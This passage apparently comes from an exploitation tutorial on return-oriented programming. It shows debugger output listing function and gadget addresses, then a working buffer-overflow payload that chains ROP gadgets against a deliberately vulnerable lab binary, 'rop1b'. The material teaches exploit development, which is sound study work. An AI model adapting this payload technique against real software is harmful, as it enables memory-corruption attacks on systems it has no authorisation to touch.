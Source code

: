 ![popret ROP gadget instructions](<../../../.gitbook/assets/image (935).png>)

### Payload

Now that we know how the stack should look like, let's build the payload for our second ROP chain.

First off, let's get addresses of our `rop1`, `rop2`, `rop3` and the libc `exit` functions:

```python
gdb-peda$ p rop1
$4 = {<text variable, no debug info>} 0x565561b9 <rop1>
gdb-peda$ p rop2
$5 = {<text variable, no debug info>} 0x565561e4 <rop2>
gdb-peda$ p rop3
$6 = {<text variable, no debug info>} 0x56556212 <rop3>
gdb-peda$ p exit
$7 = {<text variable, no debug info>} 0xf7e02950 <exit>
```

![rop1, rop2, rop3 and exit function addresses inside rop1b vulnerable program](<../../../.gitbook/assets/image (941).png>)

Let's also note the `popret` and `pop2ret` gagdet addresses:

![ROP gadget addresses for rop1b vulnerable program](<../../../.gitbook/assets/image (942).png>)

Since we now know how the stack needs to look like and we have addresses for our functions and ROP gadgets, we can visualize our payload like this:

![Visualized payload for the 2nd ROP chain](<../../../.gitbook/assets/image (963).png>)

### Exploit

We can now translate the above visualized payload to python like so:

```python
./rop1b "$(python -c 'print "A"*108 + "BBBB" + "\xb9\x61\x55\x56" + "\xe4\x61\x55\x56" + "\x1e\x60\x55\x56" + "\xef\xbe\xef\xbe" + "\x12\x62\x55\x56" + "\x0a\x63\x55\x56" + "\xad\xde\xad\xde" + "\xd3\xc0\xd3\xc0" + "\x50\x29\xe0\xf7" ')"
```

Below shows how the above payload is sent to the vulnerable program `rop1b`, that executes `rop1`, `rop2` with argument `0xbeefbeef` that gets printed out and `rop3` with 2 arguments `0xdeaddead` and `0xc0d3cod3` which too get printed and finally gracefully exits:

![2nd ROP chain with arguments and rop gadgets works as expected](../../../.gitbook/assets/rop-chain-exploit-with-popret.gif)

### Inspecting the Stack Layout

To avoid repeating what we saw in the [Stack Layout](rop-chaining-return-oriented-programming.md#stack-layout) section for our first ROP chain, let's just see how the `pop2ret` ROP gadget works and how it affects the stack during execution, since that is the only difference worth mentioning:

![Inspecting the stack layout](../../../.gitbook/assets/pop-pop-ret-inspection.gif)
